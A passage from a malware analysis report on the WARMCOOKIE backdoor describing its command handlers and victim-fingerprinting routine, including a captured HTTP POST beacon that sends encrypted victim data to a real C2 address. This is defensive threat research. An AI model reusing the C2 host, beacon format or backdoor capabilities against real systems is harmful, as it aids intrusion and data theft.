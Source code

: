 If the checksum matches, WARMCOOKIE reads the command ID at the 8th-byte offset of the request to proceed to move to the next command handler.

### Bot functionality

WARMCOOKIE provides 7 command handlers for threat actors to retrieve additional victim information, record screenshots, launch additional payloads, etc. The provided functionality is relatively straightforward, allowing threat groups that need a lightweight backdoor to monitor victims and deploy further damaging payloads such as ransomware.

| Command ID | Description                                             |
|------------|---------------------------------------------------------|
| 1          | Retrieve victim details                                 |
| 2          | Record screenshots of victim machine                    |
| 3          | Retrieve installed programs via Uninstall registry path |
| 4          | Command-line execution (cmd.exe /c)                     |
| 5          | Write file to victim machine                            |
| 6          | Read file from victim machine                           |
| 10         | Delete scheduled task persistence                       |

#### Retrieve victim details - command ID (1)

This handler fingerprints and identifies the victim machines by collecting the IP address and CPU information. Interestingly, the imports required for this handler are statically imported. 

![Retrieving CPU info (Handler 1)](/assets/images/dipping-into-danger/image16.png "Retrieving CPU info (Handler 1)")

The malware uses HTTP `POST` requests when sending data back to the C2 server. The HTTP POST request data is encrypted via RC4 and sent over the network in raw form. In addition, the IP address and CPU information are Base64 encoded.

```curl
POST http://185.49.69[.]41/ HTTP/1.1
Cookie: x41OYTpmEwUUKm2AvnkS2onu1XqjP6shVvosIXkAD957a9RplEGFsUjR8f/lP1O8EERtf+idl0bimsKh8mRA7+dL0Yk09SwgTUKBu9WEK4RwjhkYuxd2JGXxhlA=
User-Agent: Mozilla / 4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1;.NET CLR 1.0.3705)
Host: 185.49.69.41
Content-Length: 136
Connection: Keep-Alive
Pragma: no-cache

  qI:f*m  yڂ  z ? !  ,!w   k i A  K    k8 .(M ޣ> ދ  u[ôz  0 -U~    9 z G(  *X  o_  _      * Y, q  glTs   XI8b\)W   W"
```

After decrypting the HTTP POST request data, this presents a similar structure as before, where the data is front-loaded with the checksum values, offsets, and sizes to the pertinent information targeted by the handler. In this case, the Base64 encoded data is the IP Address and CPU info.
